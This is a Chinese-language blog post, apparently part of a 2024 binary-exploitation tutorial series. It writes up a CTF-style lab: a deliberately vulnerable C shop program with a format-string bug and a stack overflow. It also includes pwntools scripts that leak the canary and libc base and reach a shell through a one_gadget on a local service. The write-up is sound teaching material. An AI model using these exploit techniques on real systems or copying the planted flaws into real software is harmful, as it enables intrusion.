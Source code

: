```yaml
---
title: "Day20－Stack 題目練習"
date: 2024-09-20
draft: false
tags: ["iron-man-2024", "pwn", "binary-exploitation"]
categories: ["security-research"]
author: "YJK"
showToc: true
TocOpen: false
---
```



## [Lab 網址](https://github.com/YJK0805/PWN-CTF-note/)

## 前言

今天大致來到 Stack 部分的尾聲，前面的內容我們討論了幾個經典的 Stack 漏洞，講解了如何進行攻擊並編寫 exploit，也介紹了不少實用的工具。今天，我們將實際練習一道程式碼量較大的題目，這是我在 HITCON 社團攤位時設計的練習題目。

## Lab

查看以下原始碼：

```c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>
int choice,num;
char *product[3] = {
    "shirt\n",
    "sticker\n",
    "tissue\n"
};

void buy(){
    printf("We have 3 products:\n");
    for(int i=0; i<3; i++){
        printf("%d. %s", i+1, product[i]);
    }
    printf("Which one do you want to buy? ");
    scanf("%d", &choice);
    printf("You have bought %s\n", product[choice-1]);
    printf("How many do you want to buy? ");
    scanf("%d", &num);
    return;
}

char address[0x20];
int main(){
    setvbuf(stdout, 0, _IONBF, 0);
    setvbuf(stdin, 0, _IONBF, 0);
    printf("This is HackerSir!\n");
    printf("Welcome to the shop!\n");
    printf("1. Buy\n");
    printf("2. Exit\n");
    printf("Your choice: ");
    scanf("%d", &choice);
    if(choice==1){
        buy();
        printf("Please leave your address: ");
        scanf("%s", address);
        printf(address);
    }else{
        printf("Goodbye!\n");
        exit(0);
    }
    char last[0x10];
    printf("\nleave your last message to our club: ");
    read(0, last, 0x30);
    return 0;
}
```

使用以下指令進行編譯：

```bash
gcc src/online_shopping.c -o ./online_shopping/share/online_shopping -fstack-protector-all -z now
```

## writeup

從編譯參數可以看出，程式是動態連結且保護全開。如果想要透過 return address 控制程式流程，需要先 leak 出 canary。我們注意到第 18 行有機會透過越界存取資訊，第 38 行可以利用 format string bug 來 leak 出 stack 資訊，最後的 read 也可能導致 overflow。因此，我們需要確認以下幾點：

- 能否找到 libc base 和 canary
- 有多少 overflow 空間，以及能否透過某種方法獲取 shell

首先確認能否找到 libc base 和 canary。這裡使用簡單的 script 來驗證是否可以利用 format string 漏洞 leak 出這些資訊。在此之前，我們可以換用適當的 libc，參考[Day13－How to change libc & ret2libc](https://ithelp.ithome.com.tw/articles/10359126)

利用 format string 漏洞，先用 %p 格式輸出 stack 的值，通過 gdb 檢查是否能獲取有用的資訊。後面的 `-` 用來分隔每個位置，方便後續寫 exploit 時精確控制。

以下是簡單的 script：

```python
from pwn import *
r = process('./online_shopping')
context.terminal = ['tmux', 'splitw', '-h']
gdb.attach(r)
r.sendlineafter('e: ', '1')
r.sendlineafter('buy? ', '1')
r.sendlineafter('buy? ', '1')
r.sendlineafter('ss: ', '%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p')
leak = r.recvuntil('\n', drop=True)
print(leak)
r.interactive()
```

執行後，可以看到第三個參數 offset 是 0x21aaa0，第九個參數是 canary。將 leak 的 payload 改為 `%3$p-%9$p` 以 leak 出 libc base 和 canary，並計算出 libc base。

![image](/images/iron2024/day20_image1.png)

![image](/images/iron2024/day20_image2.png)

![image](/images/iron2024/day20_image3.png)

以下是驗證的 script：

```python
from pwn import *
import sys
r = process('./online_shopping')
# r = remote('127.0.0.1', 10011)
context.terminal = ['tmux', 'splitw', '-h']
gdb.attach(r)
r.sendlineafter('e: ', '1')
r.sendlineafter('buy? ', '1')
r.sendlineafter('buy? ', '1')
r.sendlineafter('ss: ', '%3$p-%9$p')
cnt = r.recvuntil('\n', drop=True)
cnt = cnt.split(b'-')
libc = int(cnt[0], 16) - 0x21aaa0
log.success('libc = ' + hex(libc))
canary = int(cnt[1], 16)
log.success('canary = ' + hex(canary))
r.interactive()
```

確認成功 leak 到 libc 和 canary。

![image](/images/iron2024/day20_image4.png)

接下來，我們嘗試控制程式流程。根據 objdump，我們知道從 rbp-0x20 開始輸入 0x30，因此只可以控制到 return address。由於我們已經 leak 出 libc base，接下來使用 one_gadgets 獲取 shell，具體可參考 [Day14－Other ret2libc(one gadgets)](https://ithelp.ithome.com.tw/articles/10359719)

![image](/images/iron2024/day20_image5.png)

完整 exploit：

要記得我們在 rbp 前要填入我們所 leak 到的 canary，不然程式會 crash，另外，可以將 rbp 填入 libc 的 bss 段，因為我們沒有事先 leak pie

```python
from pwn import *
import sys
# r = process('../online_shopping/share/online_shopping')
r = remote('127.0.0.1', 10011)
r.sendlineafter('e: ', '1')
r.sendlineafter('buy? ', '1')
r.sendlineafter('buy? ', '1')
r.sendlineafter('ss: ', '%3$p-%9$p')
cnt = r.recvuntil('\n', drop=True)
cnt = cnt.split(b'-')
libc = int(cnt[0], 16) - 0x21aaa0
log.success('libc = ' + hex(libc))
canary = int(cnt[1], 16)
log.success('canary = ' + hex(canary))
og = libc + 0xebd3f
payload2 = b'A' * 0x18 + p64(canary) + p64(libc + 0x21be00) + p64(og)
r.sendlineafter('club: ', payload2)
r.interactive()
```

solved!!!

![image](/images/iron2024/day20_image6.png)
